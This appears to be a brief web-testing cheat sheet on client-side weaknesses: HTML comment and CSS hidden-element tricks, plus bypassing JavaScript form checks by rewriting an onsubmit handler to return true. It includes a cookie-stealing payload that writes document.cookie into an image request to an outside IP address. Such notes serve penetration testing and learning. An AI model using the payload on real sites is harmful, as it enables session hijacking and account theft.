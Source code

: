 # Client Side


## HTML Comment
- ```--!>```

## CSS Hidden Element
- ```display: none;```
- ```display: hidden;```

## Bypass JS Control
- Stealing Cookie: 
```Javascript
document.write(‘<img src=”http://192.168.8.105/?’ + document.cookie + ‘“ />’);
```
- Return true
  - Go to page source code
  - Find validation script and copy it 
    - search for ```onsubmit``` 
  - Enable pasting
    - Browser => Console => allow pasting
  - remove ```if clause``` part and paste
```Javascript
function webform_onsubmit () {
return true;
}

```
